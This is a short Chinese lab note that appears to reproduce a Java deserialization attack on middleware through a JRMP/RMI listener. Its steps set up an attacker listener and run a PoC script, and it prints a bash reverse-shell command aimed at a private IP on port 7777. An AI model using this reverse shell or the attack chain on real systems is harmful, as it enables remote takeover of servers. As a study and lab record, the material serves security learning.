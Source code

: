 ![image-20241122164240514](中间件漏洞/image-20241122164240514.png)	

```
简单了解反序列化的利用流程。
让漏洞服务器主动去连接攻击方的让JRMP提供的RMI服务器,当连接之后就会触发发送第二个序列化的内容给漏洞服务器，当漏洞服务器进行反序列化就会自动执行恶意代码。
```

![image-20241122164518808](中间件漏洞/image-20241122164518808.png)

```
复现的具体步骤
1、kali启动JRMPListener，参数包含恶意代码恶意代码的作用是连接到7777端口）
2、kali创建7777端口监听
3、运行poc.py，让漏洞服务器主动连接RMI服务器，进而下载恶意代码，建立反弹连接
```

```
首先生成payload，将下列payload放到payload生成网站。生成后复制下来。
bash -i >& /dev/tcp/192.168.15.128/7777 0>&1
payload生成网站：https://wiki.bafangwy.com/doc/401/
```
